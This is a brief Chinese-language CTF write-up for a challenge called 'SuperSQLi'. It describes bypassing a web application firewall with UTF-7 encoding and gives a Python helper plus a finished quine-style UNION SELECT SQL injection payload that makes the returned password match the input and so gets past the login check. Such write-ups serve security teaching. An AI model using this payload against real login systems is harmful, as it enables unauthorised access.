

# SuperSQLi WriteUp

一道比较常规的SQLi题目

预期考点: 协议层WAF绕过, Quine SQLi

参考 [Break the Wall from bottom: Automated Discovery of Protocol-Level Evasion Vulnerabilities in Web Application Firewalls](https://eki.im/publication/wafmanis-paper/)

Django < 5.0



可以使用utf7编码进行绕过，这样就可以为所欲为了（bushi

由于数据库中没有用户，而判断登陆成功的方法是要求提交的password和数据库拿到的password一致，因此需要使得联合注入得到的结果等于联合注入表达式本身。

通过替换的方式构造

```python
def quine(query: str) -> str:
    query = query.replace('$$', "REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
    blob = query.replace('$$', '"$"').replace("'", '"')
    query = query.replace('$$', "'" + blob + "'")
    return query
```

```SQL
'UNION SELECT 1,'admin',REPLACE(REPLACE('"UNION SELECT 1,"admin",REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$");-- ',CHAR(34),CHAR(39)),CHAR(36),'"UNION SELECT 1,"admin",REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$");-- ');--
```